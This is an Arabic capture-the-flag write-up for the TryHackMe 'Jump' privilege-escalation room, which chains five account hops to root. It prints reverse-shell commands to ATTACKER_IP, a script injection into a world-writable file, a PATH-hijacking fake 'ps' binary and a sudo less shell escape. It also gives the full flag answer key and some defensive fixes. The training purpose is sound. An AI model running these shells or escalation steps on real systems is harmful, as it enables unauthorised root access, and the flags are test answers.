

# توثيق غرفة تحدي القفزات (Jump Challenge)

---

## 1. بيانات المديول والغرفة (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثالث عشر — تصعيد الصلاحيات (13-PRIVILEGE-ESCALATION)
* **اسم الغرفة:** تحدي القفزات (Jump)
* **المعرف البرمجي (Slug):** `jump`
* **الرابط المباشر:** [TryHackMe Jump](https://tryhackme.com/room/jump)
* **مستوى الصعوبة:** سهل / متوسط (Easy / Medium)
* **النوع:** غرفة تحدي عملي تراكمي (Practical Challenge Lab)
* **سيناريو التقييم:** سلسلة اختراق متعددة القفزات (Multi-Hop Attack Chain) تبدأ من وصول مجهول وتتحرك أفقياً عبر 4 حسابات وسيطة حتى الوصول للمستخدم الجذري `root`
* **عدد المهام:** مهمة واحدة شاملة (Task 1: Challenge)
* **عدد الأسئلة:** 5 أسئلة تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Jump** أولى غرف التحديات التراكمية في مديول تصعيد الصلاحيات. تُحاكي الغرفة بيئة خادم لينكس مؤسسي تُدار فيه المهام عبر خط أتمتة (Automation Pipeline) يربط بين حسابات متعددة (Recon, Dev, Monitor, Ops). نتيجة وجود ثغرات في حدود الثقة (Trust Boundaries) والأذونات بين هذه المكونات، يتمكن المختبر من استغلال مخرجات كل حساب للقفز إلى الحساب التالي في سلسلة متصلة حتى السيطرة على النظام بالكامل:

`Anonymous Access` ⟶ `recon_user` ⟶ `dev_user` ⟶ `monitor_user` ⟶ `ops_user` ⟶ `root`

---

## 3. مخطط سلسلة القفزات وتصعيد الصلاحيات (Attack Chain Flow)



---

## 4. توثيق مراحل سلسلة الاختراق تفصيلياً

### المرحلة 1: القفز من الوصول المجهول إلى `recon_user`:
* وضع سكريبت اتصال عكسي داخل مجلد `incoming/`:
  ```bash
  echo '#!/bin/bash' > incoming/test.sh
  echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' >> incoming/test.sh
  chmod +x incoming/test.sh
  ```
* استلام الصدفة العكسية كـ `recon_user` وقراءة الفلاج الأول:
  ```bash
  cat /home/recon_user/flag.txt
  # THM{5a3f1c92-7b4e-4d91-8c2a-1f6e9b2a4c11}
  ```

### المرحلة 2: القفز من `recon_user` إلى `dev_user`:
* فحص سكريبت النسخ الاحتياطي `/opt/dev/backup.sh` أظهر أذونات كتابة عامة (`0777`).
* حقن أمر اتصال عكسي في نهاية السكريبت:
  ```bash
  echo 'bash -i >& /dev/tcp/ATTACKER_IP/5556 0>&1' >> /opt/dev/backup.sh
  ```
* استلام الصدفة العكسية كـ `dev_user` وقراءة الفلاج الثاني:
  ```bash
  cat /home/dev_user/flag.txt
  # THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}
  ```

### المرحلة 3: القفز من `dev_user` إلى `monitor_user`:
* خدمة `healthcheck` تستدعي أمر `ps` بدون مسار مطلق (`/bin/ps`)، وتتضمن متغيراتها مسار `/opt/dev/bin`.
* إنشاء ثنائي خبيث باسم `ps` في المسار المذكور:
  ```bash
  mkdir -p /opt/dev/bin
  echo '#!/bin/bash' > /opt/dev/bin/ps
  echo 'bash -i >& /dev/tcp/ATTACKER_IP/5557 0>&1' >> /opt/dev/bin/ps
  chmod +x /opt/dev/bin/ps
  ```
* استلام الصدفة كـ `monitor_user` وقراءة الفلاج الثالث:
  ```bash
  cat /home/monitor_user/flag.txt
  # THM{c1e9a7b3-2d44-4a88-9f7e-3b6c2d5a9f77}
  ```

### المرحلة 4: القفز من `monitor_user` إلى `ops_user`:
* استعلام `sudo -l` أظهر إذن تشغيل سكريبت النشر كـ `ops_user`:
  ```bash
  sudo -u ops_user /usr/local/bin/deploy.sh
  ```
* استلام الصدفة كـ `ops_user` وقراءة الفلاج الرابع:
  ```bash
  cat /home/ops_user/flag.txt
  # THM{f7a2c9d1-6e33-4b55-8d11-9c0a7b2e4d88}
  ```

### المرحلة 5: القفز من `ops_user` إلى `root`:
* استعلام `sudo -l` أظهر إذن تشغيل أداة العرض `/usr/bin/less` على سجلات النظام بصلاحيات root.
* تشغيل الأداة:
  ```bash
  sudo /usr/bin/less /var/log/syslog
  ```
* الهروب الصدفي عبر GTFOBins بكتابة:
  ```
  !/bin/sh
  ```
* الحصول على صدفة جذرية كاملة وقراءة فلاج الجذر:
  ```bash
  cat /root/flag.txt
  # THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}
  ```

---

## 5. مصفوفة الإجابات المعتمدة

* **السؤال 1 (فلاج recon_user):** `THM{5a3f1c92-7b4e-4d91-8c2a-1f6e9b2a4c11}`
* **السؤال 2 (فلاج dev_user):** `THM{8d2b7a41-3f9c-4e55-b1a2-6c7d9e8f0123}`
* **السؤال 3 (فلاج monitor_user):** `THM{c1e9a7b3-2d44-4a88-9f7e-3b6c2d5a9f77}`
* **السؤال 4 (فلاج ops_user):** `THM{f7a2c9d1-6e33-4b55-8d11-9c0a7b2e4d88}`
* **السؤال 5 (فلاج root):** `THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}`

---

## 6. الهندسة الدفاعية والمعالجة (Defensive Hardening)

1. **تأمين مجلدات الاستقبال التلقائي:** فحص وتطهير المدخلات في مجلدات الاستقبال التلقائي وعدم تنفيذ الملفات مباشرة.
2. **استخدام المسارات المطلقة:** كتابة كافة أوامر النظام (مثل `/bin/ps`) بمساراتها الكاملة في خدمات المراقبة.
3. **تطبيق علامة NOEXEC في Sudo:** منع أدوات العرض النصية (`less`, `more`, `vi`) من الهروب الصدفي.

---

## 7. المراجع والخطوات القادمة (References & Next Steps)

1. [GTFOBins Less Execution](https://gtfobins.github.io/gtfobins/less/)
2. [MITRE ATT&CK Lateral Movement (TA0008)](https://attack.mitre.org/tactics/TA0008/)

### الخطوة التالية في المديول:
الانتقال إلى الغرفة السابعة في المديول الثالث عشر:
**`07-WINDOWS-JUMP-CHALLENGE`** لتطبيق نفس مفهوم سلاسل التصعيد التراكمية ولكن في بيئة ويندوز.
